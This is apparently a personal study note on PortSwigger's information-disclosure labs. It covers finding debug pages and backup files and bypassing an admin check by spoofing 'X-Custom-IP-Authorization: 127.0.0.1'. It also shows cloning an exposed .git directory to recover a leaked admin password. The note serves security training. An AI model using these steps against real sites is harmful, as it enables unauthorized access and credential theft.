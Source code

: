 ```yaml
---
description: https://portswigger.net/web-security/information-disclosure
---
```


# Information disclosure vulnerabilities

Information disclosure, also known as information leakage, is when a website unintentionally reveals sensitive information to its users. Depending on the context, websites may leak all kinds of information to a potential attacker, including:

* Data about other users, such as usernames or financial information
* Sensitive commercial or business data
* Technical details about the website and its infrastructure

### Lab: Information disclosure in error messages

This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework.

`https://acfb1f791e56cd67c1a0ce5d00540000.web-security-academy.net/product?productId=test`

We sent string with productId parameter, then we got an error page. The id has to be a decimal value.

### Lab: Information disclosure on debug page

This lab contains a debug page that discloses sensitive information about the application.

In pages, there is a commented line which is following.

```
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

### Lab: Source code disclosure via backup files

This lab leaks its source code via backup files in a hidden directory.

In robots.txt, there is a hidden directory.

```
User-agent: *
Disallow: /backup
```

`https://ac011f9f1f8cc651c02928c200100093.web-security-academy.net/backup/ProductTemplate.java.bak`

### Lab: Authentication bypass via information disclosure

This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

`GET /admin` - Admin interface only available to local users

`TRACE /admin`

`X-Custom-IP-Authorization: 199.199.199.199`

→ Add this line to requests → Proxy → Options → Match and Replace → Add to replace option

`X-Custom-IP-Authorization: 127.0.0.1`

### Lab: Information disclosure in version control history

This lab discloses sensitive information via its version control history.

There is .git directory.

`wget -r https://ac011fd31e74cd34c168d40200460027.web-security-academy.net/.git`

opened with qgit

we can see these:

```
-ADMIN_PASSWORD=l6uzbyjcfqpwowi43ygv
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```
